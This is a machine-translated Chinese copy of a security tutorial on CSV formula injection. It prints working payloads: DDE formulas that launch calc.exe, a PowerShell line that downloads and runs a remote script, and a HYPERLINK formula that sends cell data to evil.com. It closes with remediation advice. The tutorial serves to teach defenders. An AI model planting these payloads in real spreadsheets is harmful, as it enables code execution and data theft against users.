




# 配方注射|利用 CSV 功能

> 原文：<https://infosecwriteups.com/formula-injection-exploiting-csv-functionality-cd3d8efd02ec?source=collection_archive---------0----------------------->

配方注射入门。如何利用 Excel 进行开发？


照片由 [Hacktevo](http://twitter.com/hacktevo) 拍摄

许多现代 web 应用程序和框架都提供电子表格导出功能，允许用户下载. csv 或。xls 文件，适合在 Microsoft Excel 和 OpenOffice Calc 等电子表格应用程序中处理。生成的电子表格的单元格通常包含来自不可信来源的输入，如调查响应、交易详细信息和用户提供的地址。

当网站在 CSV 文件中嵌入不受信任的输入时，公式注入或 CSV 公式注入漏洞会影响应用程序。它会影响访问应用程序导出的电子表格文件的应用程序最终用户。当使用 Microsoft Excel 或 LibreOffice Calc 等电子表格程序打开 CSV 时，任何以=开头的单元格都将被软件解释为公式。

## 影响

1.通过利用电子表格软件(如 CVE-2014–3524)中的漏洞，或者通过利用用户忽略他们从自己的网站下载的电子表格中的安全警告的倾向，来劫持用户的计算机。
2。从电子表格或其他打开的电子表格中过滤内容。

恶意公式在输入参数中提供，希望它们被不充分地验证到导出到合法应用程序用户的电子表格中。例如，在销售订单的发货地址可导出到。xlsx 电子表格，或者在另一个例子中，调查者可导出的调查答案。

## **开发配方注射**

开发配方注射可能相对简单。这里，我们使用一个[动态数据交换](https://www.techopedia.com/definition/4973/dynamic-data-exchange-dde#:~:text=Dynamic%20Data%20Exchange%20(DDE)%20is,protocols%20for%20communication%20and%20sharing.)公式在 MS Excel Windows 受害者上执行 Calculator 作为示例负载。
作为攻击者，首先使用:

```
=cmd|’/C calc.exe’!Z0
```

作为电子商务应用程序中的名字或地址行 1，然后购买任意商品。完成结账程序。



现在，作为受害者，使用应用程序的文件导出功能(包括名字，比如在送货地址中，供卖方参考)。在 Microsoft Excel 中打开它，会提示以下安全警告:



如果警告被点击通过(稍后将详细介绍)，我们就有了命令注入。然后可以通过多种方法提升到远程代码执行。一个例子是使用 PowerShell 下载并执行恶意代码，而不一定向反病毒软件发出警报。

```
=cmd|’/Cpowershell Import-Module BitsTransfer; Start-BitsTransfer -
source https://141.io/shell.ps; Invoke-Item shell.ps;’!z
```

最后，可以修改有效载荷本身，使其在没有数字和空格的情况下工作。这方面的一个例子是:

```
=cmd|’/Ccalc.exe’!z
```

事实上，如果不需要传递参数，甚至可以这样做:

```
=calc|a!z 
```

这在某些情况下对于本地特权提升或者作为概念的最小证明是有用的。

现在，除了使用 code exec 之外，还可能使用其他公式，如 HYPERLINK，从文档中提取机密信息。这个向量很有趣，因为当文件被访问时，甚至当超链接被点击时，都不会提示任何警告。让我们描绘一张包含共同基金经纪人统计数据的电子表格。它保存了他们的客户名单，他们的投资金额，他们的帐户信息和其他类似投资组合的名称。
如果任何一位客户，比如 Eve，将其姓名或投资组合名称更改为:

```
=HYPERLINK(“http://evil.com?x="&A3&","&B3&"[CR]","Error fetching info: Click me to resolve.”)
```



使用特制的有效负载，任何点击超链接的受害者都可以将文档的所有数据发送到远程站点。

> 为了让这个例子工作，需要**启用以下配置**:文件→选项→信任中心→信任中心设置→外部内容→启用动态数据交换服务器启动或使用**旧 Excel 版本**。

## 显示针对 Piwik 的 CSV 注射的视频:

# 补救

电子表格软件可以采取措施来减轻这些攻击，但防止公式注入最终是每个生成包含用户提供的内容的电子表格的应用程序的责任。目前，我们所知道的最好的防御策略是在以“=”、“+”或“-”开头的单元格前加上撇号。这将确保单元格不会被解释为公式，并且在 Microsoft Excel 中撇号本身不会显示。

另一个教训是。csv 和。tsv 文件不应被视为等同于。txt 文件，因为在其中嵌入活动内容很简单。

最后，确保您运行的是 Apache open office 4 . 1 . 1 版或更高版本，以及 libre office 4 . 2 . 5 版或更高版本。

## 而这就是配方注射或 csv 注射！您还想了解其他哪些安全概念？我们很想知道。欢迎在 Twitter [@hacktevo 上联系。](http://twitter.com/hacktevo)